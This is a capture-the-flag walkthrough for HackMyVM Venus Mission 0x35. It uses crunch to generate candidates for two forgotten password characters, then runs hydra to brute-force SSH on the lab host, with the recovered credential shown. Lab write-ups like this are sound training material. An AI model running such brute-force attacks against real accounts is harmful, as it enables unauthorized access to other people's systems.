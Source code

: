 ## Mission 0x35

{{< highlight plaintext >}}
maia@venus:~$ cat mission.txt
################
# MISSION 0x35 #
################

## EN ##
The user gloria has forgotten the last 2 characters of her password ... They only remember that they were 2 lowercase letters.

## ES ##
La usuaria gloria ha olvidado los 2 ultimos caracteres de su password... Solo recuerdan que eran 2 letras minusculas.
maia@venus:~$ ls -lhtr
total 12K
-rw-r----- 1 root maia  31 Apr  7 05:55 flagz.txt
-rw-r----- 1 root maia 317 Apr  7 05:55 mission.txt
-rw-r----- 1 root maia  16 Apr  7 06:00 forget
maia@venus:~$ cat forget
v7xUVE2e5bjUc??
maia@venus:~$
{{< / highlight >}}

To generate a wordlist, we can use `crunch`

{{< highlight plaintext >}}
$ crunch 15 15 -t "v7xUVE2e5bjUc@@" -o ./wordlist
Crunch will now generate the following amount of data: 10816 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 676

crunch: 100% completed generating output
{{< / highlight >}}

And then use hydra to brute-force the password:

{{< highlight plaintext "hl_lines=11" >}}
$ hydra -l gloria -P ./wordlist ssh://venus.hackmyvm.eu:5000/
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-05-06 22:53:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 676 login tries (l:1/p:676), ~43 tries per task
[DATA] attacking ssh://venus.hackmyvm.eu:5000/
[STATUS] 91.00 tries/min, 91 tries in 00:01h, 586 to do in 00:07h, 15 active
[STATUS] 90.33 tries/min, 271 tries in 00:03h, 406 to do in 00:05h, 15 active
[STATUS] 88.00 tries/min, 616 tries in 00:07h, 61 to do in 00:01h, 15 active
[5000][ssh] host: venus.hackmyvm.eu   login: gloria   password: v7xUVE2e5bjUcxw
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-05-06 23:01:26
{{< / highlight >}}

